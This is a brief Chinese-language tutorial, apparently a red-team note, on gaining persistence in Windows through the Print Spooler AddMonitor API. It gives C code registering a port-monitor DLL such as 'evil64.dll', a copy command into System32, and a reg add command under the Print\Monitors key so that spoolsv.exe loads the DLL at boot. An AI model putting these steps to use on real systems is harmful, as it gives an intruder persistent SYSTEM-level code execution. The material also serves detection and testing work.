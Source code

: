 ## AddMonitor

打印后台处理程序服务负责管理 Windows 操作系统中的打印作业。与服务的交互是通过 Print Spooler API 执行的，该 API 包含一个函数 ( **AddMonitor** )，可用

于安装本地端口监视器并连接配置、数据和监视器文件。该函数能够将 DLL 注入**spoolsv.exe**进程，并通过创建注册表项

### 编译注册

```c
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}


#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("test.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

编译代码将生成一个可执行文件（在本例中为 Monitors.exe），该可执行文件将在系统上执行恶意 DLL的注册

需要将 DLL 复制到 System32 文件夹，因为根据 Microsoft文档，这是AddMonitor函数加载相关 DLL 的预期位置

```cmd
copy test.dll %systemroot%\System32
```

为了实现持久性，“ **Monitors** ”注册表位置下需要一个密钥

```cmd
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors

# Usage
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```

下次重新启动时，spoolsv.exe 进程将加载 Monitors 注册表项中存在并存储在 Windows 文件夹 System32 中的所有驱动程序 DLL 文件
